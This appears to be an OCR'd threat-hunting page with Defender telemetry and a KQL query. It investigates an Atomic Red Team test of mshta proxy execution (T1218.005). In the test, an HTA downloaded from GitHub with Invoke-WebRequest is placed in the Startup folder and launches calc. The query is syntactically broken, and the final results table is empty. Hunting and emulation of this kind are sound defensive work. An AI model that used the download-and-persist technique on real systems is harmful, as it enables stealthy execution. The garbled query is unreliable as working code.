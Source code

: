 | ----------------------- | ---------------------------------------- | ---------- | -------------- | -------- | --------------------------- | ---------------------------------------- | ---------------------------------------------------------------- | -------------------------------- | -------- | ----------------------------- | ------------------------------------ | -------------------------------- | ---------------------------------- | ---------------------------------- | --------------------------------- | --------- | ----------------------- | --------------------- | ------------------------- | ----------------------- | ------------- | ----------- | --------------------------------------------- | ------- | ------------------------------ | ---------------------------- | --------------------------------------------- | ------------------------ | ------------------------------- | ------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- | -------------------------------- | ------------------------- | ------------------------- | --------------------------------------- | --------------------------------------- | ------------------------------------------ | -------------------------------------------- | -------------------------------------------- | ------------------------------------------- | ------------------- | ------------------------------------------------------------------------------------------------------------- | ----------------------------- | ----------------------------- | ------------------------- | ------------------------------- | ----------------------------------- | --------------------------- | -------------------------------- | -------- | --------------- | ----------------------- | ---------------------- | ------------------------------ | ---------------------- | -------------------------- | -------------------------------- | ---------------------------------------- | -------------------------------- | ---------------- | ------------------------- |
| May 20, 2025 1:07:40 PM | 847afb88a4c60fb8d6b448718acfcc5694cd477e | thvmar-6   | ProcessCreated | cmd.exe  | C:\Windows\System32\cmd.exe | df79c86fdd11b9ccb89148458e509f879c72566c | badf4752413cb0cbdc03fb95820ca167f0cdc63b597ccdb5ef43111180e088b0 | 2b40c98ed0f7a1d3b091a3e8353132dc | 289792   | Microsoft Corporation         | Microsoft® Windows® Operating System | 10.0.19041.4355                  | cmd                                | Cmd.Exe                            | Windows Command Processor         | 7404      | `"cmd.exe" /c calc.exe` | High                  | TokenElevationTypeDefault | May 20, 2025 1:07:40 PM | thvmar-6      | thvmar-6    | S-1-5-21-2809134146-2186371660-1403345045-500 | 1382613 | thvmar-6                       | thvmar-6                     | S-1-5-21-2809134146-2186371660-1403345045-500 | 1382613                  | High                            | TokenElevationTypeDefault       | 83cc5f0d1ef79b99ffd49adac9a70026ec09a22c | f8a2fd36fdc35aa8e7e678576a2ecc5d7b3fe6383e73101508e5d7b49443d153 | b8ed3f707000c22aee6bbf961879ea99 | mshta.exe                 | 43520                     | Microsoft Corporation                   | Internet Explorer                       | 11.00.19041.5794                           | MSHTA.EXE                                    | MSHTA.EXE                                    | Microsoft (R) HTML Application host         | 8388                | `"mshta.exe" "C:\Users\THVMAR-6\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\T1218.005.hta"` | May 20, 2025 1:07:39 PM       | c:\windows\system32\mshta.exe | 5660                      | powershell.exe                  | May 20, 2025 12:46:40 PM            | OsVendor                    | Valid                            | 7528     | Winsta0\Default | 2                       | 1                      | Guacamole RDP                  | 10.0.8.6               | 2                          | 1                                | Guacamole RDP                            | 10.0.8.6                         | 1688849860264859 | 1688849860264858          |


```
let deviceName = "thvmar-6";
DeviceEvents
| where AdditionalFields == @"{""Command"":""$var =Invoke-WebRequest \""https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta\""""}"
| order by Timestamp between (ago(30d) .. now()) and (DeviceName == "thvmar-6")
```

Result of KQL query: 

| Timestamp               | DeviceId                                 | DeviceName | ActionType          | InitiatingProcessSHA1                    | InitiatingProcessSHA256                                                                                     | InitiatingProcessMD5                    | InitiatingProcessFileName | InitiatingProcessFileSize | InitiatingProcessFolderPath                                           | InitiatingProcessId | InitiatingProcessCommandLine | InitiatingProcessCreationTime | InitiatingProcessAccountDomain | InitiatingProcessAccountName | InitiatingProcessAccountSid                                | InitiatingProcessVersionInfoCompanyName | InitiatingProcessVersionInfoProductName                     | InitiatingProcessVersionInfoProductVersion | InitiatingProcessVersionInfoInternalFileName | InitiatingProcessVersionInfoOriginalFileName | InitiatingProcessVersionInfoFileDescription | InitiatingProcessParentId | InitiatingProcessParentFileName | InitiatingProcessParentCreationTime | InitiatingProcessLogonId | ReportId | AdditionalFields.Command                                                                                                                                             | InitiatingProcessSessionId | IsInitiatingProcessRemoteSession | InitiatingProcessRemoteSessionDeviceName | InitiatingProcessRemoteSessionIP | IsProcessRemoteSession | InitiatingProcessUniqueId |